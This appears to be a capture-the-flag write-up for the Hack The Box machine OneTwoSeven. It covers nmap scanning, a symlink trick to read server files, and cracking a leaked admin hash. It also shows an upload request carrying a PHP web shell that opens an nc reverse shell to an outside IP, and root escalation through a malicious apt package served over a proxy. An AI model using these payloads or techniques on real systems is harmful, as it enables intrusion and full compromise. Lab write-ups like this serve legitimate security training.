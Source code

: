 # Nmap
nmap -sC -sV -oA nmap/onetwoseven.htb 10.10.10.133

```
# Nmap 7.70 scan initiated Wed Apr 24 15:36:04 2019 as: nmap -Pn -sC -sV -oA nmap/onetwoseven 10.10.10.133
Nmap scan report for 10.10.10.133
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10*deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 48:6c:93:34:16:58:05:eb:9a:e5:5b:96:b6:d5:14:aa (RSA)
|   256 32:b7:f3:e2:6d:ac:94:3e:6f:11:d8:05:b9:69:58:45 (ECDSA)
|_  256 35:52:04:dc:32:69:1a:b7:52:76:06:e3:6c:17:1e:ad (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Page moved.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr 24 15:37:22 2019 -- 1 IP address (1 host up) scanned in 77.43 seconds

``` 
# SFTP
we found a sftp login credentials on port 80 enumeration.

```
Username: ots-kMjNlZjE
Password: a6d23ef1
```
lets login in with command

```
sftp ots-kMjNlZjE@10.10.10.133
```
After some web searching and some experimenting we find that we can create sysmlnks and apache (which has more privleges that sftp will open them in url http://10.10.10.133/ots-kMjNlZjE/ .
so create a syslnk of root directory with name nice
```
sysmlnk root /
```
Opening it in web browser at url http://10.10.10.133/ots-kMjNlZjE/root .

# Web Exploitation
## Obtaining hash
On browsing the the url http://10.10.10.133/ots-kMjNlZjE/root , we find a file login.php.swp. Its a vim backup file, on viewing it, we get. a hash and of user ots-admin.
```
ots-admin
11c5a42c9d74d5442ef3cc835bda1b3e7cc7f494e704a10d0de426b2fbe5cbd8 
```
## Cracking hash
Crack it with john (pass.hash is file only containing hash)
```
john --wordlist=rockyou.txt pass.hash
```
we get password as *Homesweethome1*

## SSH tunneling
Further exploring the source code we get a admin login at localhost:60080 of the remote machine.
Using ssh tunneling to tunnel our localhost:60080 to remote machine localhost:60080
```
ssh -N -L 60080:127.0.0.1:60080 ots-kMjNlZjE@10.10.10.133
```
~we can do this as sftp is bases on ssh

## Shell Upload
We get a login prompt after which we get a menu.php, with several php addons. After some enumeration and reading ots-addon-man, we upload reverse shell as following request.
~i use python for creating this request.

```
POST /addon-download.php/addon-upload.php HTTP/1.1
Host: 127.0.0.1:60080
User-Agent: Mozilla/5.0 Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml*xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------1805684181392670424798019532
Content-Length: 540
DNT: 1
Connection: close
Cookie: PHPSESSID=95bpafranr5ugmd7sh8b2895p5
Upgrade-Insecure-Requests: 1

-----------------------------1805684181392670424798019532
Content-Disposition: form-data; name="addon"; filename="ots-nice.php"
Content-Type: application/x-php

<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /login.php"); }; if ( strpos($_SERVER['REQUEST_URI'], '/addons/') !== false ) { die(); };
# OneTwoSeven Admin Plugin
# OTS SHELL
echo shell_exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.39 4444 >/tmp/f");
?>

-----------------------------1805684181392670424798019532--
```
# Privelge Escalation
~I used LinEnum.sh as enumeration script

As result of command ```sudo -l``` we find that we run apt-get update && apt-get upgrade and change environment variable http_proxy, so apt is our attack vector.
on internet we find an apt mitm (man in the middle) vuln, so did the following steps.

1. Follow the blog post make the malicious deb file, Package file.
~ we will only need these file you can ignore the rest of blog.

2. Create the repo stucture,

```
.:
devuan

./devuan:
dists  pool

./devuan/dists:
ascii

./devuan/dists/ascii:
main

./devuan/dists/ascii/main:
binary-amd64

./devuan/dists/ascii/main/binary-amd64:
Packages

./devuan/pool:
main

./devuan/pool/main:
v

./devuan/pool/main/v:
vim

./devuan/pool/main/v/vim:
vim_11.1.0875-3_amd64.deb
```

3. Make the box proxy to us,

```
export http_proxy=http://10.10.15.69:3128/
```

4. Proxy to a Proxy 

* the box proxies to a proxy on our box, the proxy tunnels locally to port 80.
~we doing this so the second proxy uses our /etc/hosts to resolve packages.onetwoseven.htb to 127.0.0.1. 
* we will use squid to listen on port 3128 (i.e default), which will forward it localhost listening on port 80
* Make appropriate changes to /etc/squid/squid.conf allow connections only to localhost host, otherwise the target box will be updated which is not good.
* Add this to squid.conf
```
acl GOOD dst 127.0.0.1
 http_access allow GOOD
 http_access deny all

```
* Run the command to start squid service

```
sudo service squid start
```

5. Setting Up Server

* Edit the /etc/hosts file
```
127.0.0.1 packages.onetwoseven.htb
```
* Start the HTTP Server on Port 80
```
sudo python -m SimpleHTTPServer 80
```

## Getting root shell,
Now all you gotta do is update and upgrade the box, which update your malicious deb package, thus giving you root shell.

